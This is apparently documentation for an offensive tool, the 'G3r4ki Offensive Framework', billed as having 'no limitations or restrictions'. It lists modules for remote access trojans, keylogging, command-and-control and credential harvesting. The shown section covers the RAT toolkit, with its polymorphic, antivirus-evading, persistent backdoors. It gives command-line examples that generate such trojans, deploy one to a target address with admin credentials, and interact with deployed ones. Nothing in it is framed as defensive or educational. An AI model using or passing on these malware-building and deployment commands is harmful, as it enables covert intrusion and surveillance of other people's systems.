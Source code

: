 # G3r4ki Offensive Framework - Elite Modules

The G3r4ki Offensive Framework provides comprehensive offensive security capabilities with no limitations or restrictions. This document outlines the available elite modules and their usage.

## Table of Contents

1. [RAT Deployment Toolkit](#rat-deployment-toolkit)
2. [Keylogging & Screen Capture Module](#keylogging--screen-capture-module)
3. [Command-and-Control Integration](#command-and-control-integration)
4. [Credential Harvester](#credential-harvester)
5. [Shell Generator](#shell-generator)
6. [Mission Planner](#mission-planner)
7. [Usage Examples](#usage-examples)

## RAT Deployment Toolkit

The Remote Access Trojan (RAT) Deployment Toolkit provides polymorphic, cross-platform backdoor generation capabilities.

### Supported Platforms

- Windows (x86/x64)
- Linux (x86/x64/ARM)
- macOS (x64/ARM)
- Android
- iOS (jailbroken devices)

### Features

- **Polymorphic Generation**: Each build creates a unique binary signature
- **Anti-Detection**: Sophisticated techniques to evade EDRs and AVs
- **Persistence**: Multiple persistence methods per platform
- **Communications**: Encrypted C2 communications over multiple protocols
- **Payloads**: Custom post-exploitation payloads

### Commands

```bash
# Generate a basic RAT
python g3r4ki.py offensive rat generate --platform windows --output windows_rat.exe

# Generate a stealthy RAT with custom options
python g3r4ki.py offensive rat generate --platform linux --persistence cron,systemd --comms https,dns --obfuscation high --output linux_rat

# Deploy a RAT to a target
python g3r4ki.py offensive rat deploy --target 192.168.1.100 --credentials admin:password --platform windows

# Manage deployed RATs
python g3r4ki.py offensive rat list
python g3r4ki.py offensive rat interact --id RAT123
```
